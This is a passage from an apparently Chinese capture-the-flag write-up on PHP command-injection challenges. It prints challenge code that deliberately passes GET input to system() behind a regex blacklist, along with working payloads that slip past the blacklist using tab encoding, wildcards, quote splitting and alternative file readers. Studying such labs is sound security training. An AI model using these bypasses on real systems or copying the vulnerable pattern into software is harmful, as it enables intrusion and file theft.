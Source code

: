 payload:

```
?c=tac%09fla?.php%0a

nl<fla''g.php||

?c=tac<fla\g.php||
```

## web47~多过滤读取函数

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}

```

多过滤了 more 、less 、 head 、sort 、tail 。

但是 tac  、od  、uniq 等没被过滤  

od 读文件 https://www.cnblogs.com/wfwenchao/p/5188720.html

payload:

```
?c=tac%09fla?.php%0a

?c=nl%09fla?.php%0a

?c=nl<fla''g.php||
```

## web48~多过滤函数

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}

```
